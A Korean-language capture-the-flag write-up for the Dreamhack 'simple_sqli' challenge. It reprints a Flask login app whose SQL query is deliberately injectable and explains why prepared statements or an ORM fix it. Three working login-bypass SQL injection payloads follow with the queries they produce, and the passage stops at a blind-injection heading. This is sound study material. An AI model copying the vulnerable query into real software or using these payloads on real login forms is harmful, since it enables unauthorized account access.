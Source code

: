 # [Dreamhack Wargame] simple_sqli
### [🚩simple_sqli](https://dreamhack.io/wargame/challenges/24/)
  <img width="1072" alt="simple_sqli_description" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/c3e5faf9-a315-495b-a321-7a56e14f54ca">

<br/><br/>

## 문제 파일(app.py) 분석
```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read() # flag.txt 파일로부터 FLAG 데이터를 가져옴
except:
    FLAG = '[**FLAG**]'


# 데이터베이스
DATABASE = "database.db" # 데이터베이스 파일명을 database.db로 설정 (database.db 파일로 데이터베이스를 관리함)
if os.path.exists(DATABASE) == False: # 데이터베이스 파일이 존재하지 않는 경우
    # 데이터베이스 파일 생성 및 연결
    db = sqlite3.connect(DATABASE)
    
    # users 테이블 생성 (CREATE TABLE로 userid, userpassword를 열로 가지는 테이블을 생성함)
    db.execute('create table users(userid char(100), userpassword char(100));')
    # users 테이블에 관리자와 guest 계정을 생성 (INSERT INTO 사용)
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit() # 쿼리 실행 확정
    
    db.close() # DB 연결 종료



# 데이터베이스 관련 함수
def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()



# 인덱스 페이지
@app.route('/')
def index():
    return render_template('index.html') # 인덱스 페이지(index.html)를 화면에 출력 (render_template 함수 사용)



# 로그인 페이지
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET': # GET 메소드의 요청을 전달할 경우
        return render_template('login.html') # 이용자아게 id와 pw를 요청받는 페이지(login.html)을 화면에 출력
    else: # POST 메소드의 요청을 전달한 경우
        # 이용자의 입력값인 userid, userpassword를 가져옴
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        
        # users 테이블에서 이용자가 입력한 userid와 userpassword가 일치하는 회원 정보를 불러오는 쿼리(SELECT문) 작성하여 데이터베이스에 전달
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        
        if res: # 쿼리 결과가 존재하는 경우
            userid = res[0] # 로그인할 계정을 해당 쿼리의 결과에서 불러와 사용함
            if userid == 'admin': # 결과로 받은 로그인 계정이 관리자 계정('admin')인 경우
                return f'hello {userid} flag is {FLAG}' # flag를 출력함
                
            return f'<script>alert("hello {userid}");history.go(-1);</script>' # 관리자 계정이 아닌 경우 "hello" 알림창만 출력함
            
        return '<script>alert("wrong");history.go(-1);</script>' # 쿼리 결과가 존재하지 않는 경우 "wrong" 알림창을 출력함


app.run(host='0.0.0.0', port=8000)
```

<br/><br/>


## 문제 풀이
### 취약점이 존재하는 코드
userid와 userpassword를 이용자에게 입력받고, 동적으로 쿼리문을 생성한 뒤 ```query_db``` 함수를 이용해 데이터베이스에 질의함
```python
res = query_db(f’select * from users where userid="{userid}" and userpassword=“{userpassword}”’)
```
* **Raw Query**: 동적으로 생성한 쿼리
	- Raw Query를 생성할 때 이용자의 입력값이 별다른 검사 과정 없이 쿼리문에 포함되면 SQL Injection 취약점에 노출될 수 있음
		+ 쿼리문을 직접 생성하는 방식이 아닌 **Prepared Statement**과 **Object Relational Mapping**(ORM)을 사용해 해결 가능
* 이용자의 입력값을 검사하는 과정이 없기 때문에 임의의 쿼리문을 userid 또는 userpassword에 삽입해 SQL Injection 공격을 수행할 수 있음


<br/><br/>

### 익스플로잇

#### SQL Injection: 관리자의 계정을 모른 채 로그인을 우회하여 풀이하는 방법
* 정상적인 이용자가 로그인을 위해 실행하는 쿼리문
	```SQL
	select * from users where userid=“{userid}” and userpassword=“{userpassword}”
	```
	- 위의 쿼리문을 참고해 admin이라는 결과가 반환되도록 쿼리문을 조작해야 함
		+ SQL은 수많은 조건절을 제공하기 때문에 다양한 방법으로 공격을 시도할 수 있음
* admin 계정으로 로그인할 수 있는 SQL Injection 공격 코드
   1. userid 검색 조건만을 처리하도록, 뒤의 내용은 주석 처리하는 방식
      - userid, userpassword 입력값
		    | userid | userpassword |
        |-----|-----|
        | admin"-- | DUMMY (아무 문자열이나 입력해도 상관 없음) |
        + 생성되는 쿼리문
          ```SQL
          select * from users where userid="admin"--" and userpassword="DUMMY"
          ```

  2. userid 검색 조건 뒤에 ```OR``` 조건을 추가하여 뒤의 내용과 관계없이 admin이 반환되도록 하는 방식
      - userid, userpassword 입력값
		    | userid | userpassword |
        |-----|-----|
        | admin" or "1 | DUMMY (아무 문자열이나 입력해도 상관 없음) |
        + 생성되는 쿼리문
          ```SQL
          select * from users where userid="admin" or "1" and userpassword="DUMMY"
          ```

  3. userid 검색 조건 뒤에 ```or 1```을 추가하여 테이블의 모든 내용을 반환하도록 하고, ```LIMIT``` 절을 이용해 admin 행만 반환하도록 하는 방식
      - userid, userpassword 입력값
		    | userid | userpassword |
        |-----|-----|
        | "" or 1 LIMIT 1,1 -- | DUMMY (아무 문자열이나 입력해도 상관 없음) |
        + 생성되는 쿼리문
          ```SQL
          select * from users where userid="" or 1 LIMIT 1,1--" and userpassword="DUMMY"
          ```


<br/>

#### Blind SQL Injection: 관리자 계정의 비밀번호를 알아내고 올바른 경로로 로그인 하는 방법

